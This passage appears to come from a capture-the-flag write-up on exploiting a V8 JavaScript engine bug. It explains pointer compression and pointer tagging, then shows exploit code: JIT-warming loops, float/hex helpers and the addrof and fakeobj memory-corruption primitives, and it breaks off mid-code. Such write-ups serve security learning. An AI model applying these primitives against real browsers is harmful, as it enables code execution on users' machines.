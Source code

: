 However, we soon realise the leaked value is constant, which is unexpected as memory addresses on a regular windows system should have at least a random base. In fact, it is not possible to be a regular pointer because no existing system uses all 64 bits of the pointer; they use 48 and sign extend the top 16. After pondering slightly, I realised it is possibly the new [pointer compression](https://blog.infosectcbr.com.au/2020/02/pointer-compression-in-v8.html) mechanism introduced to V8 sometime back. A brief googling indicated that I was right.

In summary, instead of wastefully using 64 bits to represent a heap pointer, only the lower 32 bit are used. This is due to the upper 32 bit being the heap's memory base, or the _isolate root_, which is constant across all heap pointers. This meant we can only leak the bottom 32 bits of any heap pointer, although it is not a big deal as it is still usable in most contexts. Also, a point to note is that the pointers all have 1 in their least significant bit to indicate they are pointers, due to [pointer tagging](https://en.wikipedia.org/wiki/Tagged_pointer). When pointers are used for memory access, the bit is ignored.

## Exploitation

```javascript
function r(i) {
	i[0];
	i[1];
	i[2];
	i[3];
	return i[0];
}
function w(i, v) {
	i[0];
	i[1];
	i[2];
	i[3];
	i[0] = v;
}
function dr(i) {
	i.a;
	i.b;
	i.c;
	i.d;
	return i.b;
}
for (var j = 0; j < 1000000; j++) {r([1.1,1.1,1.1,1.1,1.1]);}
for (var j = 0; j < 1000000; j++) {w([1.1,1.1,1.1,1.1,1.1], 2.2);}
for (var j = 0; j < 1000000; j++) {dr({a: 1.1, b: 1.1, c: 1.1, d: 1.1});}


function f2h(f, off) { // float to hex
	var buf = new DataView(new ArrayBuffer(8));
	buf.setFloat64(0, f);
	return buf.getUint32(off);
}

function h2f(h, l) { // hex to float
	var buf = new DataView(new ArrayBuffer(8));
	buf.setUint32(4, h);
	buf.setUint32(0, l);
	return buf.getFloat64(0);
}

function addrof(obj) {
	var raw = r([obj, [], [], [], []]);
	//console.log(raw);
	return f2h(raw, 4);
}
function fakeobj(addr) {
	var store = [[], [], [], [], []];
```